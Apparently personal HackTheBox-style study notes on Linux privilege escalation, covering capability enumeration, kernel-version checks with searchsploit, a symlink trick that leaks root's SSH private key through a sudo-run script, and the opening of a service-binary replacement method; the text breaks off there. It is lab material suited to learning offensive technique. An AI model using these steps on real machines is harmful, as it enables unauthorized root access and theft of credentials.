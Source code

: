 ## Find Capabilities

```
/usr/sbin/getcap -r / 2>/dev/null
```
- Use GTFOBins for exploits

## Exploiting Kernel Vulnerabilities

```
cat /etc/issue
```

```
uname -r
```

```
arch
```

Example searchsploit search 
```
`searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"`
```

## Symlinks
Scenario - after running `sudo -l`, discover .sh script that zips a bunch of files. 
![[HackTheBox/Linux/attachments/Pasted image 20250506193545.png]]
- Add symlink within this script
- Find a file we have write access to in the `/var/components/profile` dir and make a copy of it
- Give root's id_rsa key the name of this file
Move the original file
```
mv cmdsubsys.log cmdsubsys.log~
```

Give root's ssh key this file's name
```
ln -s /root/.ssh/id_rsa cmdsubsys.log
```

Now execute the getprofile.sh script as sudo and find the cmdsubsys.txt file containing the root ssh key. 

## Service Binary Replacement
Scenario - after running `sudo -l`, discover a .sh script we can execute as root. 

This sh script restarts a service binary called nagios. 

Determine that nagios binary is owned by us 
```
stat /usr/local/nagios/bin/nagios
```
